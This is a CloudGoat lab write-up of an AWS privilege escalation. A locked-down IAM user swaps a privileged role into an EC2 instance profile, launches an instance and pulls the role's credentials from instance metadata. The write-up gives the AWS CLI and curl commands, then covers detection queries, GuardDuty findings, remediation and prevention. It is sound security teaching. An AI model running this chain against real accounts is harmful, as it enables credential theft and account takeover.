# From Near-Blind User to Admin: Stealing a Role Through an EC2 Instance Profile

> **CloudGoat scenario:** `iam_privesc_by_attachment`
> **Attacker toolkit:** AWS CLI, SSH, EC2 instance metadata (IMDSv2)
> **Defender toolkit:** CloudTrail → Athena, GuardDuty, Terraform, Prowler
> **MITRE ATT&CK:** [T1078 Valid Accounts](https://attack.mitre.org/techniques/T1078/), [T1098 Account Manipulation](https://attack.mitre.org/techniques/T1098/), [T1552.005 Cloud Instance Metadata API](https://attack.mitre.org/techniques/T1552/005/)

The previous write-up escalated with a single API call. This one is a *chain* —
several innocuous-looking permissions that combine into a full compromise. It is
a more realistic shape for a cloud attack, and a far more interesting detection
problem.

---

## The environment

I start with access keys for `kerrigan`, an IAM user so locked down she can't
even list her own policies:



Almost every `iam:List*` / `iam:Get*` call returns `AccessDenied`. That is itself
a clue: the scenario wants me to *act*, not enumerate. What `kerrigan` *can* see
is the account's roles and EC2 resources.

Two roles stand out — a low-privilege `cg-ec2-meek-role` and a privileged
`cg-ec2-mighty-role` — both trusted by the EC2 service, meaning they're assumed
by being **attached to an instance**, not assumed directly:



There's also a `meek` instance profile and a running EC2 instance with **no
profile attached**:





`kerrigan` can't become `mighty` directly. But she holds a combination of
permissions that lets her route `mighty`'s credentials through an EC2 instance
she controls.

---

## The attack

**1. Repackage the instance profile.** This is the core escalation. `kerrigan`
can swap which role an instance profile carries — so I remove `meek` and add
`mighty` into the `meek` instance profile:

```bash
aws iam remove-role-from-instance-profile \
  --instance-profile-name cg-ec2-meek-instance-profile-<id> \
  --role-name cg-ec2-meek-role-<id> --profile attacker

aws iam add-role-to-instance-profile \
  --instance-profile-name cg-ec2-meek-instance-profile-<id> \
  --role-name cg-ec2-mighty-role-<id> --profile attacker
```



The profile keeps its name but now carries the privileged role.

**2. Launch an instance I control.** I create a key pair, find a subnet and
security group in the right VPC, and launch a new EC2 instance with the
(now-`mighty`-carrying) instance profile attached:

```bash
aws ec2 create-key-pair --key-name pwned --profile attacker \
  --query 'KeyMaterial' --output text > pwned.pem

aws ec2 run-instances --image-id <ami> --instance-type t3.micro \
  --iam-instance-profile Arn=arn:aws:iam::ACCOUNT_ID:instance-profile/cg-ec2-meek-instance-profile-<id> \
  --key-name pwned --subnet-id <subnet> --security-group-ids <sg> \
  --associate-public-ip-address --profile attacker --region us-east-1
```



**3. Read the role's credentials from instance metadata.** I SSH into *my*
instance and query the Instance Metadata Service (IMDSv2). Because the instance
runs as `mighty`, its metadata hands me `mighty`'s temporary credentials:

```bash
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 600")
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ec2-mighty-role-<id>
```



**4. Operate as mighty.** Configured with the stolen credentials, I can now do
what `kerrigan` never could:



The escalation chain is complete: a user who couldn't list her own policy now
holds the privileged role's credentials.

---

## Root cause

`kerrigan`'s policy granted a dangerous **combination** on `Resource: "*"`:

```
iam:AddRoleToInstanceProfile
iam:RemoveRoleFromInstanceProfile
iam:PassRole
ec2:RunInstances
ec2:AssociateIamInstanceProfile
```



The linchpin is **`iam:PassRole` on `"*"`**. `PassRole` is the single most
abused permission in AWS privilege escalation — it lets a principal hand *any*
role to a service. Combined with the ability to repackage instance profiles and
launch instances, `kerrigan` could pass `mighty` to an EC2 instance and harvest
its credentials.

---

## Detection

Unlike the single-call rollback in the first scenario, this attack is a
**sequence**. That makes it a richer detection problem — and a more realistic
one. The Athena query surfaces the chain:

```sql
SELECT eventtime, eventname, useridentity.arn AS who, sourceipaddress AS source_ip
FROM cloudtrail_logs_vulnerable_lab_logs_cmr
WHERE eventname IN ('RemoveRoleFromInstanceProfile','AddRoleToInstanceProfile','RunInstances')
  AND eventtime > '2026-10-28T00:00:00Z'
ORDER BY eventtime ASC;
```



Read top to bottom, the rows *are* the attack narrative: `kerrigan` removes a
role from the instance profile, adds the `mighty` role, then launches instances
— all within minutes, all from one IP.

**Detection logic:** no single event here is alarming. `AddRoleToInstanceProfile`
and `RunInstances` are ordinary infrastructure operations. The signal is the
**correlation** — a role swap on an instance profile immediately followed by an
instance launch, performed by a non-admin principal. Detecting this requires
reasoning about sequences, not matching single API calls.

### What GuardDuty saw — and what it missed

This time GuardDuty *did* fire — a **High**-severity finding:



`UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration.OutsideAWS` —
"Credentials for instance role `cg-ec2-mighty-role` were used from an external IP
address." GuardDuty noticed that I used the role's credentials from my laptop,
outside AWS.

But look carefully at *what* it caught. GuardDuty detected the **downstream
credential exfiltration** — the symptom. It did **not** flag the
`AddRoleToInstanceProfile` **privilege-escalation technique** that produced the
credentials in the first place. My custom CloudTrail detection caught that.

That contrast is the whole point of layered detection:

| Attack stage | GuardDuty (native) | Custom CloudTrail/Athena |
| --- | --- | --- |
| Instance-profile role swap (the privesc) | ❌ missed | ✅ caught |
| Credential use from outside AWS (the exfil) | ✅ caught | ✅ caught |

Native tooling caught the symptom; custom detection caught the root-cause action.
You want both.

---

## Remediation

The fix removes the escalation primitives and, critically, **scopes
`iam:PassRole`** from `"*"` down to a single non-privileged role, conditioned on
the EC2 service:

```json
{
  "Sid": "PassOnlyNonPrivilegedRole",
  "Effect": "Allow",
  "Action": "iam:PassRole",
  "Resource": "arn:aws:iam::ACCOUNT_ID:role/cg-ec2-meek-role-<id>",
  "Condition": { "StringEquals": { "iam:PassedToService": "ec2.amazonaws.com" } }
}
```



**The key remediation insight:** scoping `PassRole` is the fix that matters most.
`iam:PassRole` on `Resource: "*"` is the enabler behind the majority of
instance-profile and service-role privilege escalations. Restrict which roles a
principal may pass, and you close the entire attack class — even if the other
permissions remain. A permissions boundary on `kerrigan` would be an even
stronger, defence-in-depth control. The Terraform representation is in
[`remediate/`](../iam_privesc_by_attachment/remediate/).

---

## Verification

After applying the fix, re-running the core exploit step as `kerrigan` fails:



`AccessDenied` on `AddRoleToInstanceProfile` — the role-swap primitive is gone,
and with it the escalation path.

---

## Prevention

A deploy-time guardrail (Checkov, OPA/Conftest, or an SCP) that **denies
`iam:PassRole` on `Resource: "*"`** and flags any policy granting
`iam:AddRoleToInstanceProfile` to a non-admin principal would stop this
misconfiguration before it ever reaches an account.

---

## Takeaways

- **`iam:PassRole` on `*` is a critical finding, full stop.** It is the quiet
  enabler of most AWS role-based privesc. Always scope it.
- **Instance metadata is a credential vending machine.** Anything that can place
  a privileged role onto an instance can read that role's credentials. Guard the
  path *to* the instance profile, not just the instance.
- **Detect sequences, not just events.** The individual API calls here were
  benign. The attack lived in their order and their author.
- **Native and custom detection cover different stages.** GuardDuty caught the
  exfiltration; only control-plane log analysis caught the escalation. Relying on
  one leaves a gap an attacker operates in.
